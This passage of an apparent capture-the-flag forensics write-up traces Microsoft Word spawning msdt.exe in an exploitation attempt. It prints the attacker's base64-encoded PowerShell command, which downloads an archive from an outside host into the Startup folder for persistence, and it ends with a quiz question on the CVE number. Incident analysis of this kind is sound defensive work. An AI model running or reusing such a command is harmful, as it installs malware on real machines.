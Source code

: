 ![b5caa50a2db8aa34c5e99fb0dcec7a55.png](/resources/b5caa50a2db8aa34c5e99fb0dcec7a55.png)

Now we have to go back to Event ID 1 and use process ID 496 as parent process ID which we can see that there is only 1 child process from Microsoft Word process and as we can see from the command line of this process, then we could also see that this is an exploitation attempt on Microsoft Support Diagnostic Tool (`msdt.exe`) to execute PowerShell command.

```
JGFwcD1bRW52aXJvbm1lbnRdOjpHZXRGb2xkZXJQYXRoKCdBcHBsaWNhdGlvbkRhdGEnKTtjZCAiJGFwcFxNaWNyb3NvZnRcV2luZG93c1xTdGFydCBNZW51XFByb2dyYW1zXFN0YXJ0dXAiOyBpd3IgaHR0cDovL3BoaXNodGVhbS54eXovMDJkY2YwNy91cGRhdGUuemlwIC1vdXRmaWxlIHVwZGF0ZS56aXA7IEV4cGFuZC1BcmNoaXZlIC5cdXBkYXRlLnppcCAtRGVzdGluYXRpb25QYXRoIC47IHJtIHVwZGF0ZS56aXA7Cg==
```

>What is the CVE number of the exploit used by the attacker to achieve a remote code execution? <br>
*Format: XXXX-XXXXX*
